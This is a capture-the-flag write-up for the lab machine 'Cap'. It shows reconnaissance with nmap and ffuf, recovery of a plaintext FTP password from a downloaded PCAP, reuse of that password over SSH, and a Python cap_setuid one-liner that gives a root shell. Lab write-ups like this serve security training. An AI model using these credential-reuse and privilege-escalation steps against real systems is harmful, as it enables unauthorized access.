



# Cap WriteUp

* Target IP: `10.129.166.179`

## 0-1. Reconnaissance – Nmap

First, I scanned the target with Nmap.

```bash
nmap -sC -sV -vv --reason 10.129.166.179
```

```text
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|  ... omitted
80/tcp open  http    syn-ack Gunicorn
|_http-title: Security Dashboard
| http-methods:
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan showed that the target was running Linux, with FTP, SSH, and HTTP services exposed.

I started by visiting the web service on port 80.

```text
http://10.129.166.179
```

In many HTB machines, the IP address must be mapped to a domain such as `cap.htb`. However, this machine was accessible directly through its IP address.



## 0-2. Reconnaissance – FFUF

I also performed directory enumeration using FFUF.

```bash
ffuf -u http://10.129.166.179/FUZZ \
     -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

FFUF discovered at least three endpoints.

```text
data       [Status: 302, Size: 208, Words: 21, Lines: 4, Duration: 74ms]
ip         [Status: 200, Size: 17447, Words: 7275, Lines: 355, Duration: 69ms]
netstat    [Status: 200, Size: 32613, Words: 15646, Lines: 488, Duration: 74ms]
```

However, these endpoints were also directly accessible from the website's navigation menu, so they could have been discovered manually.

## 1. User Flag

On the website, I found a function that allowed me to download a PCAP file.



I downloaded the file and opened it in Wireshark.



While inspecting the packets, I found an FTP authentication request containing a password in plaintext.

```text
40  5.424998  192.168.196.1  192.168.196.16  FTP  78
Request: PASS Buck3tH4TF0RM3!
```

FTP transmits credentials without encryption, so the password was visible directly in the packet capture.

This password was used for FTP authentication, but it was also worth testing against other services because users sometimes reuse passwords.

The website appeared to be associated with the user `nathan`, so I tried logging in through SSH using the captured password.

```bash
ssh nathan@10.129.166.179
```

```text
Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

The login was successful.

I then retrieved the user flag.

```bash
cat /home/nathan/user.txt
```

## 2. Privilege Escalation

Following the standard Linux enumeration process, I checked for binaries with Linux capabilities.

```bash
getcap / -r 2>/dev/null
```

```text
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The most interesting result was `/usr/bin/python3.8`, which had the `cap_setuid` capability.

```bash
ls -la /usr/bin/python3.8
```

```text
-rwxr-xr-x 1 root root 5486384 Jan 27 2021 /usr/bin/python3.8
```

Normally, an unprivileged process cannot change its UID to `0`. However, the `cap_setuid` capability allows Python to change the UID of its own process.

Therefore, I used Python to set the process UID to `0` and then spawn a shell.

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh", "-p")'
```

```text
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

The shell was running with UID `0`, which gave me root privileges.

Finally, I retrieved the root flag.

```bash
cat /root/root.txt
```

## Summary

The attack path was:

```text
Web dashboard
    ↓
Download an exposed PCAP file
    ↓
Extract plaintext FTP credentials
    ↓
Reuse the password for SSH access
    ↓
Discover cap_setuid on Python
    ↓
Change the process UID to 0
    ↓
Root shell
```
